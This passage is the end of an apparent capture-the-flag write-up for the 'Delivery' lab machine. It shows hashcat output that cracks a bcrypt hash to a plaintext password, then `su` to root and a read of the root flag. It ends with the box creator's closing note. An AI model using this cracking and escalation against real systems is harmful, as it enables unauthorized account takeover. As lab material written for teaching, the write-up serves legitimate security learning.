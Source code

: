 ```bash
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache built:
* Filename..: basicpwd.txt
* Passwords.: 1
* Bytes.....: 17
* Keyspace..: 77
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```

As root had no SSH access at this box, ran `su` and was able to connect as him and read the final flag :smiley:.

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su root
Password:
root@Delivery:/opt/mattermost/config# cd /root/
root@Delivery:~# cat root.txt
<redacted>
root@Delivery:~#
```

Besides root flag, ippsec left us a message in `note.txt` file:

> I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here:
>
> \- `https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c`
>
> Keep on hacking! And please don't forget to subscribe to all the security streamers out there.
>
> \- ippsec

Hope you guys have enjoyed this box!

See you at the next post :smile:
